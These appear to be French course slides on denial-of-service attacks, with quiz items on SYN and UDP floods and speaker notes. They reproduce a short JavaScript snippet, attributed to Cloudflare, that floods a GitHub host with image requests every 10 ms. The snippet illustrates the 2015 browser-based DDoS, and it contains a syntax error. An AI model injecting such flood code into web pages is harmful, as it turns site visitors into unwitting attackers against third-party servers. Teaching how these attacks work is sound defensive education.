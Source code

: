 ^ Faux, ils ne sont appliqués que lors d'une attaque SYN Flood.

^ Vrai, l'état de la connection n'est pas conservé en mémoire sur le serveur.

---

![Course+Notes-Denial+of+Service+Attacks_page-0019](https://user-images.githubusercontent.com/3305685/112178259-e9c43680-8bf9-11eb-966e-d9afa1f494fe.jpg)

---

![Course+Notes-Denial+of+Service+Attacks_page-0020](https://user-images.githubusercontent.com/3305685/112178263-ea5ccd00-8bf9-11eb-8bce-01cf429e4e47.jpg)

---

![Course+Notes-Denial+of+Service+Attacks_page-0021](https://user-images.githubusercontent.com/3305685/112178265-eaf56380-8bf9-11eb-9c00-23eefb3db278.jpg)

---

![Course+Notes-Denial+of+Service+Attacks_page-0022](https://user-images.githubusercontent.com/3305685/112178267-eaf56380-8bf9-11eb-8dec-0e36ef96d8cf.jpg)

^ L'idée est de prendre un serveur populaire utilisé par de nombreux utilisateur (ex: Baidu) et d'y injecter un script malveillant qui va s'exécuter côté client.

---

# A real-work example: GitHub (3/2015)

Le script ci-dessous crée une balise image sur la page que vous visitez 100x/seconde. Chaque visiteur du site infecté devient un participant involontaire à une attaque DDoS contre Github.

```javascript
function imgFlood() {
  let pic = new Image();
  let TARGET = "user-images.githubusercontent.com";
  let rand = Math.floor(Math.random() * 1000);
  pic.src = "https://" + TARGET + "/" rand + ".jpg";
}
setInterval(imgFlood, 10);
```

<sub>Source: [Cloudflare - An introduction to JS based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)</sub>

^ Les messages envoyés par le navigateur sont des requêtes HTTP valides, ce qui en fait une attaque de niveau 7.

---

# Attaque par inondation UDP Quiz

- [ ] Les attaquants peuvent usurper l'adresse IP de leurs paquets UDP.
- [ ] L'attaque peut être atténuée avec un pare-feu.
- [ ] Les pare-feu ne peuvent pas arrêter une inondation car ils y sont vulnérables.
